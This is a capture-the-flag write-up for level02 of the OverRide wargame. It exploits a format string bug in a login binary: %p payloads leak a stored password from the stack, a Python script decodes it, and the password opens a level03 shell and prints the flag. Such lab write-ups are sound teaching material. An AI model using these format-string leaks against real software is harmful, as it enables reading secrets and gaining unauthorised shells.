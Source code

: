 # **Level02**

At this level (level02), I found a binary file that, when executed, prompts the user for a username and password.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: eeeeee
--[ Password: eee
*****************************************
eeeeee does not have access!
level02@OverRide:~$
```

## **Binary Analysis**

After examining the program with GDB, I found that the program reads the password from a file, takes the username and password input from the user, and compares them. If the password is correct, it spawns a shell.

```nasm

0x0000000000400814 <+0>:     push   %rbp
0x0000000000400818 <+4>:     sub    $0x120,%rsp      ;Allocate 288 bytes

;Initialize buffers at different offsets
0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx  ; Username buffer
0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx  ; File content buffer
0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx ; Password buffer

;Open password file
0x00000000004008a8 <+148>:   callq  0x400700 <fopen@plt>
0x00000000004008ad <+153>:   mov    %rax,-0x8(%rbp)   ; Store file pointer

;Read from file
0x00000000004008f4 <+224>:   mov    $0x29,%edx        ; Read 41 bytes (0x29)
0x0000000000400901 <+237>:   callq  0x400690 <fread@plt>

;Username input
0x00000000004009d1 <+445>:   mov    $0x64,%esi        ; Size = 100 bytes
0x00000000004009d9 <+453>:   callq  0x4006f0 <fgets@plt>

;Password input
0x0000000000400a17 <+515>:   mov    $0x64,%esi        ; Size = 100 bytes
0x0000000000400a1f <+523>:   callq  0x4006f0 <fgets@plt>

; Format string vulnerability
0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax  ; Load username
0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt> ; Direct printf

;spawning a shell
0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
```

## **Vulnerability**

The vulnerability in this program is a format string vulnerability. The input is passed directly to `printf` without proper validation.

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p
--[ Password:
*****************************************
0x7fffffffe4c0(nil) does not have access!
level02@OverRide:~$
```

## **Exploit**

Now, we need to calculate the offset. First, we determine the distance between the buffers.

```nasm
(gdb) p/d 0x70
$1 = 112
(gdb) p/d 0xa0
$2 = 160
```

Visual representation:

```nasm
Higher addresses
[      ...      ]
rbp-112 (0x70)  Username buffer
[      ...      ]
48 bytes difference
[      ...      ]
rbp-160 (0xa0)  Password buffer
[      ...      ]
Lower addresses
```

Calculating the Distance:

                                           *Distance = 160 − 112 = 48 bytes*

Since this is a 64-bit binary (x86_64), where registers, memory addresses, and stack values are 8 bytes each, we determine the number of positions to move:

                                           *48 ÷ 8 = 6 positions*

This means we need to go back **6 positions** on the stack to reach the password buffer.

1. **Find the Start Position** 

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password:
*****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
level02@OverRide:~$

```

2. **We can verify this with specific position:**

```nasm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %28$p
--[ Password:
*****************************************
AAAA 0x3832252041414141 ; Confirms position 28
level02@OverRide:~$ 
```

So the first password position: 28 - 6 = 22

1. **Precise Format String:**

```bash
# Read 5 8-byte chunks starting at position 22
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password:
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$
```

1. **Decode Password:**
Hex to ASCII conversion
```python
hex_values = [
    '756e505234376848',  # First chunk
    '45414a3561733951',  # Second chunk
    '377a7143574e6758',  # Third chunk
    '354a35686e475873',  # Fourth chunk
    '48336750664b394d'   # Fifth chunk
]

password = ''
for hex_val in hex_values:
    # 1. bytes.fromhex(hex_val):
    # '756e505234376848' -> b'unPR47hH'
    
    # 2. [::-1]:
    # b'unPR47hH' -> b'Hh74RPnu'
    
    # 3. decode('ascii'):
    # b'Hh74RPnu' -> 'Hh74RPnu'
    
    bytes_val = bytes.fromhex(hex_val)
    password += bytes_val[::-1].decode('ascii')

print(password)
```

**Output:** 

```python
~ python3 decode.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
➜  ~
```

1. **Get the Flag**

```python
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dddddd
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, dddddd!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$
```

## Flag

```python
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```